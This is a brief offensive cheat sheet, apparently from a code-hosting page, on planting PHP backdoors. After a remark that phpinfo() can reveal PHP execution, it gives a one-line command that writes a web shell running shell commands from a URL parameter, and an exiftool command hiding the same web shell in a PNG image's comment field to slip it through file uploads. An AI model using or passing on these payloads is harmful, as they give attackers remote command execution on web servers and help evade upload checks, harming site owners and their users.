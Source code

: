 remember that :
```
<?php phpinfo(); ?>
```
can be used for detection !

####################################


php easy backdoor
```
echo '<?php system($_GET["cmd"]);?>' > shell.php
```
inject php backdoor png (not restricted to php as i know)
```
exiftool -comment='<?php system($_GET["cmd"]);?>' shell.png
```



